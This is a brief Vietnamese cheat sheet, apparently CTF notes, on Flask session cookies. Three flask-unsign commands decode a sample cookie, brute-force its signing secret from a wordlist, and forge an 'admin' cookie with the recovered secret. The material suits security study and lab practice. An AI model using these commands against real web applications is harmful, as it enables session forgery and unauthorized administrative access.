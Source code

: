 # Flask Python

## Để decode cookie
```cmd
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' 
```

## Để dò secret
```cmd
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' --wordlist=worklist_cookie.txt
```

## Thay đổi cookie và bỏ secret vào
```cmd
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```
